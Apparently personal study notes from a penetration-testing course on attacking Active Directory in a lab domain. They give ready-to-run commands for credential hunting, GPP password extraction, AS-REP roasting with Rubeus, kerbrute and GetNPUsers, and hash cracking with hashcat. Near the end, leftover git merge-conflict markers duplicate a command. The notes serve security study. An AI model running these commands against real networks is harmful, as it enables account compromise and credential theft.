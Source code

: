 

## Exchange Weaknesses:
- Groups often have lots of privileges in Exchange, and can be utilized for privilege escalation if understood properly.

"**Exchange Windows Permissions**": Members can write to the DACL, adding themselves to **DCSync** privileges.

"**Organizational Management**": Effectively the "Domain Admins" of Exchange, can access all the mailboxes of all domain users.

**Dumping credentials from memory on a Exchange server** will produce lots of cleartext credentials due to users logging in to Outlook Web Access (OWA) and the server caching their credentials.

## PrivExchange attack
-> A weakness that allows a domain user with a mailbox to get the exchange server to authenticate to any host over HTTP.

## MS14-068 (CVE‑2014‑6324)
Allows a user to force a Privilege Attribute Certificate (PAC) to authenticate to the KDC as an administrator

## Sniffing LDAP credentials
Sometimes printers will have stored credentials. Some printers have a 'test connection' functionality where we can point the connection back to our attacker machine and gather creds from the printer that way. (setup a netcat listener on port 389)

## Enumerating DNS Records:
More thorough enumeration of DNS records can give us better insight into the domain.

We can use a tool (with valid domain creds) such as `adidnsdump`
```shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

## What is LDAP?
Phonebook. Store user information and authentication.

Map out your organization.

LDAP -> AD
OpenLDAP -> Linux

LDAP Provides the *information* about what services a user can access, but does not actually enforce that access. (provides the data to systems that do enforce)

**Rather than having 500 servers on a big network that contain a database to authenticate individuals**, an LDAP server can be used to centralize that authentication.

## Password in Description Field
Utilize Powerview `Get-DomainUser` module to find sensitive information in the description field of AD users.
```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field
If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

## Credentials in SMB Shares and SYSVOL Scripts

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

## Group Policy Preferences (GPP) Passwords

Sensitive data can be stored on the SYSVOL share
```shell
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
# Look for exposed credentials for a machine or user that automatically logs on
```

## ASREPRoasting
-> Obtain TGTs for any account that has the `do not require Kerberos pre-authentication`

> The success of this attack depends on the account having a relatively weak password.

- **Kerberoasting** = crack service account credentials via SPN service tickets.
- **AS-REP Roasting** = crack user passwords directly by exploiting accounts without pre-authentication.

<<<<<<< HEAD
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
# Request the hash of the ASRepRoastable user
```

==Crack the hash offline with hashcat==

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```


### Kerbrute
-> Will automatically retrieve the AS-REP for any sers found that do not require Kerberos pre-authentication.
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Get-NUsers.py
Can also hunt for users that are vulnerable to AS-REP attacks
```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

## GPO abuse:
GPO's allow for fine grain control over permissions, but can be complex and can lead to misconfigurations that can be compromised by attackers. These attacks can be used to:
1. Add additional privileges to users
2. Add a local admin user to one or more hosts
3. Create an immediate scheduled task

```powershell
Get-DomainGPO |select displayname
# Enumerate GPO names with PowerView
```

=======
```PowerShell

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

